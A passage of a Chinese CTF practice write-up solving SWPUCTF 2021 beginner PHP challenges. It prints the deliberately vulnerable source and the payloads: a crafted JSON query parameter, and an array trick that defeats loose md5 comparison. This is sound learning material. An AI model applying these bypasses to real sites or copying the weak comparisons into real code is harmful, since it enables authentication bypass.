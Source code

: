 # nss刷题
##  [SWPUCTF 2021 新生赛]jicao  
```
<?php
highlight_file('index.php');
include("flag.php");
$id=$_POST['id'];
$json=json_decode($_GET['json'],true);
if ($id=="wllmNB"&&$json['x']=="wllm")
{echo $flag;}
?>
```
这里介绍一下json_decode()
作用：将字符串转为数组
举例如下：
```php
<?php 
$json = '{"a":1,"b":2,"c":3,"d":4,"e":5}'; 
var_dump(json_decode($json)); 
?> 
输出
array{ 
["a"] => int(1) 
["b"] => int(2) 
["c"] => int(3) 
["d"] => int(4) 
["e"] => int(5)
```
本题payload：
?json={"x":"wllm"}
id=wllmNB
##  [SWPUCTF 2021 新生赛]easy_md5  
```
<?php 
 highlight_file(__FILE__);
 include 'flag2.php';
 
if (isset($_GET['name']) && isset($_POST['password'])){
    $name = $_GET['name'];
    $password = $_POST['password'];
    if ($name != $password && md5($name) == md5($password)){
        echo $flag;
    }
    else {
        echo "wrong!";
    }
 
}
else {
    echo 'wrong!';
}
?> 
```
md5弱比较，直接数组绕过
payload：
?name[]=1
password[]=2
##  [SWPUCTF 2021 新生赛]include  
![10530c531d7f4ef1d583841370a8fc64.png](https://cdn.nlark.com/yuque/0/2024/png/39174886/1706088263070-735a5bb7-f96c-4af7-861b-67429d32df89.png#averageHue=%23f5f3f1&clientId=u41bc5da6-d0ee-4&from=paste&height=42&id=u8f47a62f&originHeight=52&originWidth=181&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=1105&status=done&style=none&taskId=uaa18b20e-ecb5-41ed-9586-96bdf92de89&title=&width=144.8)